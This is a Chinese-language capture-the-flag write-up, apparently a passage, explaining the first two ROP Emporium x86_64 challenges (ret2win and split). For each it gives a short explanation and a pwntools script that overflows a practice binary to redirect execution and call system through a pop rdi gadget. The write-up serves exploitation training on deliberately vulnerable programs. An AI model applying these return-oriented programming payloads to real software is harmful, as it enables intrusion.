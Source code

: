 ```yaml
---
title: ROP Emporium x86_64 1~6题
date: 2023-02-28 22:45:10
categories:
- write-ups
- 其他
---
```

ROP Emporium是一个提供ROP攻击学习样板程序的网站，一共8道题，每道题有64位、32位、ARM、MIPS共4种格式的ELF文件，适用于多种平台，难度依次递增。本文档为前6道题的x86_64位版本的解析。

[ROP Emporium](https://ropemporium.com/index.html)

# 1. ret2win

这个没什么好说的，新手第一题水平，直接改返回地址就行。

payload:

```python
from pwn import *

io = process('./ret2win')

io.sendlineafter(b'> ', cyclic(40) + p64(0x400756))

io.interactive()
```

# 2. split

这道题需要调用system函数，传入正确的参数。参数在数据段已经给出，直接使用经典gadget将参数pop到rdi寄存器中即可。rdi是64位linux程序函数的第一个参数，前6个参数分别为：rdi, rsi, rdx, rcx, r8, r9，之后的参数在栈中高地址处依次保存。

payload:

```python
from pwn import *

context.arch = 'amd64'

io = process('./split')

useful_string = 0x601060
pop_rdi_ret_addr = 0x4007c3
elf = ELF('./split')

payload = cyclic(32 + 8) + p64(pop_rdi_ret_addr) + p64(useful_string) + p64(elf.plt['system'])

io.sendlineafter(b'> ', payload)

io.interactive()
```
